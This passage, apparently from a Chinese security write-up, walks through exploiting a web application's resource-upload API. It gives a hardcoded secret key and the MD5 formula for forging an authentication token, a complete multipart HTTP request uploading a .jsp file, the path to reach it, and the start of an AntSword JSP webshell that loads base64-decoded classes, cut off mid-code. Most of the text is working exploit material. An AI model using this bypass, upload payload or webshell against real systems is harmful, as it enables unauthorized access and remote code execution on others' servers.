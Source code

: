 构造token绕过认证  （内部机制：如果token值与请求url+secretkey的md5值相同就可以绕过认证）  
  
secretkey是代码里写死的（默认值：secretKeyIbuilding）  
  
token值需要进行MD5加密（32位大写）  
  
组合：token=MD5(url+"secretKeyIbuilding")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1RyCJ6ibic6EZtyhdSnntWic9SrZcFFfQmyeV9oSFEgUhAsFfV6yFPuzEr9Gb5Gtw5SibnweFljlVT2w/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
重新验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1RyCJ6ibic6EZtyhdSnntWic9pXMJtz6aXHYliar5TebqJH9RrianrA5CLuUhldTkQdUbbt7zF8VmPbfA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
可以看到，成功绕过  
  
构造文件上传payload  
```
POST /eps/api/resourceOperations/upload?token=构造的token值 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: ISMS_8700_Sessionname=A29E70BEA1FDA82E2CF0805C3A389988
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryGEJwiloiPo
Upgrade-Insecure-Requests: 1
Content-Length: 174

------WebKitFormBoundaryGEJwiloiPo
Content-Disposition: form-data; name="fileUploader";filename="1.jsp"
Content-Type: image/jpeg

test
------WebKitFormBoundaryGEJwiloiPo
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1RyCJ6ibic6EZtyhdSnntWic9TyXmtNty2wl3hFwrOILHHuUNKQBnCBE2b1micuUXgV8TM20fxjJAMgw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
显示上传成功且返回了resourceUuid值  
  
验证路径：http://url/eps/upload/resourceUuid的值.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1RyCJ6ibic6EZtyhdSnntWic95ibIdyefJ8nJGicIcTDaJwsxzqgiccvQs3dFv4rwg3I0MywJ6JYggF7ZQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 0x06 漏洞利用  
  
直接上传蚁剑jsp马子  
```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
```